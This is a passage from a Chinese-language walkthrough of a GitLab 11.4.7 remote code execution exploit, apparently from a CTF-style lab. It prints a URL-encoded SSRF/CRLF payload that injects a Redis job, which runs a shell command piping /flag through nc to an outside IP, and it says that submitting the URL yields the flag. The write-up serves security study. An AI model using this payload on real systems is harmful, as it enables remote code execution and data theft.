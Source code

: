 * `url`编码之后的`payload`

```shell
# url编码之后的payload
git://[0:0:0:0:0:ffff:127.0.0.1]:6379/%0D%0A%20multi%0D%0A%20sadd%20resque%3Agitlab%3Aqueues%20system%5Fhook%5Fpush%0D%0A%20lpush%20resque%3Agitlab%3Aqueue%3Asystem%5Fhook%5Fpush%20%22%7B%5C%22class%5C%22%3A%5C%22GitlabShellWorker%5C%22%2C%5C%22args%5C%22%3A%5B%5C%22class%5Feval%5C%22%2C%5C%22open%28%5C%27%7Ccat%20%2Fflag%20%7C%20nc%20192%2E168%2E178%2E21%201234%5C%27%29%2Eread%5C%22%5D%2C%5C%22retry%5C%22%3A3%2C%5C%22queue%5C%22%3A%5C%22system%5Fhook%5Fpush%5C%22%2C%5C%22jid%5C%22%3A%5C%22ad52abc5641173e217eb2e52%5C%22%2C%5C%22created%5Fat%5C%22%3A1513714403%2E8122594%2C%5C%22enqueued%5Fat%5C%22%3A1513714403%2E8129568%7D%22%0D%0A%20exec%0D%0A%20exec%0D%0A/ssrf.git
```

现在，如果发送`“Repo by URL”`请求与此`URL`，将得到`flag`!

![gitlab-rce-4](./resource/gitlab-11.4.7远程代码执行漏洞及exp史诗级详细剖析/media/gitlab-rce-4.gif)

## 结论和收获

* 挖洞要细心
* 多跟踪大牛的twitter保存经验和payload

## 参考

https://fdlucifer.github.io/2020/12/17/gitlab-remote-code-execution/